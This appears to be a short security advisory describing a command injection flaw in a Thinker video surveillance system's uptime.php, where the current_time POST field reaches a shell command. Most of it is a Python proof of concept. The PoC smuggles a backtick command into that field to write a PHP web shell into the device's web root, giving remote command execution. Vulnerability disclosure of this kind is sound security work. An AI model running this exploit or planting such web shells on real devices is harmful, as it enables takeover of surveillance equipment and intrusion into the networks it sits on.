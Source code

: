 # Thinker Video Surveillance System  Command Injection

**Vender** ：Thinker

**Firmware version**:	lastest

**Exploit Author**: Gqleung@hillstone

**Vendor Homepage**: http://thinker.cn/

## detail description

An issue was discovered on Thinker   devices. An HTTP request parameter is used in command string  construction in the handler function of the `uptime.php`. This could lead to command injection via shell metacharacters in  the `$_POST['current_time']`.

## POC

```python
import requests

url="http://10.10.15.9/uptime.php"
data={
	'current_time':'2022-03-21 22:01:40 `echo "<?php echo system(\$_GET[1]);?>">/usr/local/app/htdocs/shell.php`'
}
r = requests.post(url,data=data)
print(r.text)
```

